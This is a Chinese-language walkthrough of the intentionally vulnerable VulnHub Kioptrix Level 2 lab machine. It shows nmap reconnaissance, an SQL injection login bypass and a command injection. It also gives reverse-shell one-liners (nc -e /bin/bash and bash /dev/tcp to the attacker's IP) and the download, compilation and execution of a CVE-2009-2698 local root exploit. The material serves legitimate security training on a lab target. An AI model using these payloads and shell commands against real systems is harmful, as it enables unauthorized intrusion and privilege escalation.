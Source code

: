 # Kioptrix2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

**Description**

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

Source: http://www.kioptrix.com/blog/?page_id=135

Source: http://www.kioptrix.com/blog/?p=49

This is the second release of #2. First release had a bug in it with the web application

2012/Feb/09: Re-releases

2011/Feb/11: Original Release

**知识点**
- SQL 注入
- 命令执行
- CVE-2009-2698

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.145` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.145
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/2.png)

开放端口数蛮多的,SSH、http、https、Mysql,还有一个较为少见的 631，运行的 CUPS 服务，CUPS 也有许多漏洞

这里 nmap 扫描 mysql 提示未授权,不过我测试并不能连接,从 web 先入手

---

# 中期-漏洞利用

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/3.png)

看着就像有 SQL 注入的样子,随便试了下注入就进去了
```
账号 随便
密码 1' or '1'='1
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/4.png)

看起来有个命令注入,简单尝试发现没有过滤
```
;ip a
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/5.png)

下面直接回弹 shell，kali 监听
```
nc -lvp 4444
```

执行命令
```
;nc -nv 192.168.141.134 4444 -e /bin/bash
```
没成功,估计没有 nc,试试直接 bash 回弹
```
;bash -i >& /dev/tcp/192.168.141.134/4444 0>&1
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/6.png)

回弹成功,果然没有 nc 程序,下面测试提权

---

# 后期-提权

简单收集下信息
```
cat /etc/*-release
uname -a
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/7.png)

centos 4.5,可以试试 CVE-2009-2698，https://www.exploit-db.com/exploits/9542

这里直接靶机下载或kali下载再传上去都行,自选

kali 下载完启 HTTP
```bash
wget https://www.exploit-db.com/download/9542
mv 9542 9542.c
python -m SimpleHTTPServer 8080
```

靶机下载 kali 上的 poc
```bash
cd /tmp
wget 192.168.141.134:8080/9542.c
gcc 9542.c
ls
./a.out
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix2/8.png)

提权成功,感谢 Kioptrix Team 制作靶机
